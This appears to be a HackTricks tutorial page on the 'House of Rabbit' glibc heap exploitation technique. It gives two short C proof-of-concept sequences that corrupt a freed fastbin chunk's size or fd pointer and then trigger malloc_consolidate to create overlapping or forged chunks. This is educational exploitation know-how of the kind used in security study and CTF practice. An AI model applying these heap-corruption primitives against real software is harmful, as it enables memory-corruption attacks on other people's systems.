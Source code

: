 # House of Rabbit

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Requirements

1. **Ability to modify fast bin fd pointer or size**: This means you can change the forward pointer of a chunk in the fastbin or its size.
2. **Ability to trigger `malloc_consolidate`**: This can be done by either allocating a large chunk or merging the top chunk, which forces the heap to consolidate chunks.

### Goals

1. **Create overlapping chunks**: To have one chunk overlap with another, allowing for further heap manipulations.
2. **Forge fake chunks**: To trick the allocator into treating a fake chunk as a legitimate chunk during heap operations.

## Steps of the attack

### POC 1: Modify the size of a fast bin chunk

**Objective**: Create an overlapping chunk by manipulating the size of a fastbin chunk.

* **Step 1: Allocate Chunks**

```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```

We allocate two chunks of 0x40 bytes each. These chunks will be placed in the fast bin list once freed.

* **Step 2: Free Chunks**

```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```

We free both chunks, adding them to the fastbin list.

* **Step 3: Modify Chunk Size**

```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```

We change the size metadata of `chunk1` to 0xa1. This is a crucial step to trick the allocator during consolidation.

* **Step 4: Trigger `malloc_consolidate`**

```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```

Allocating a large chunk triggers the `malloc_consolidate` function, merging small chunks in the fast bin. The manipulated size of `chunk1` causes it to overlap with `chunk2`.

After consolidation, `chunk1` overlaps with `chunk2`, allowing for further exploitation.

### POC 2: Modify the `fd` pointer

**Objective**: Create a fake chunk by manipulating the fast bin `fd` pointer.

* **Step 1: Allocate Chunks**

```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```

**Explanation**: We allocate two chunks, one smaller and one larger, to set up the heap for the fake chunk.

* **Step 2: Create fake chunk**

```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```

We write fake chunk metadata into `chunk2` to simulate smaller chunks.

* **Step 3: Free `chunk1`**

```cpp
free(chunk1);  // Frees the chunk at 0x602000
```

**Explanation**: We free `chunk1`, adding it to the fastbin list.

* **Step 4: Modify `fd` of `chunk1`**

```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```

**Explanation**: We change the forward pointer (`fd`) of `chunk1` to point to our fake chunk inside `chunk2`.

* **Step 5: Trigger `malloc_consolidate`**

```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```

Allocating a large chunk again triggers `malloc_consolidate`, which processes the fake chunk.

The fake chunk becomes part of the fastbin list, making it a legitimate chunk for further exploitation.

### Summary

The **House of Rabbit** technique involves either modifying the size of a fast bin chunk to create overlapping chunks or manipulating the `fd` pointer to create fake chunks. This allows attackers to forge legitimate chunks in the heap, enabling various forms of exploitation. Understanding and practicing these steps will enhance your heap exploitation skills.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
